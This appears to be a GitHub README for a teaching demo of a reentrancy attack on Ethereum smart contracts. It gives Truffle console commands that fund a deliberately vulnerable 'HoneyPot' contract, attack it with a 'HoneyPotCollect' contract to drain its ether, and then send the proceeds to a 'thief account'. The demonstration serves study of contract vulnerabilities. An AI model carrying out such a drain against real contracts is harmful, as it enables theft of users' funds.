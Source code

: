 # honeyPotReentranceAttack
Example of vulnerable contract and an attack contract that would drain all money from vulnerable contract.

#Set up
`truffle compile`
`truffle migrate`
`truffle console`

#truffle console commands

Get Honey pot contract address
`HoneyPot.deployed().then(instance => honeyPotAddress = instance.address)`

Check its balance
`web3.eth.getBalance(honeyPotAddress).toString(10)`

send money to honey pot address from accounts[1]
`HoneyPot.deployed().then(instance => instance.put({from: web3.eth.accounts[1], value: web3.toWei(5, "ether") }))`

Check again honeypot contract balance
`web3.eth.getBalance(honeyPotAddress).toString(10)`

Get Attack contract address
`HoneyPotCollect.deployed().then(instance => evilContractAddress = instance.address)`

Check its balance
`web3.eth.getBalance(evilContractAddress).toString(10)`

Attack HoneyPot contract with evil contract
`HoneyPotCollect.deployed().then(inst => inst.collect({ value: web3.toWei(5, "ether"), gas: 1000000 }))`

Transfer ether to the thief account:
`HoneyPotCollect.deployed().then(inst => inst.kill())`
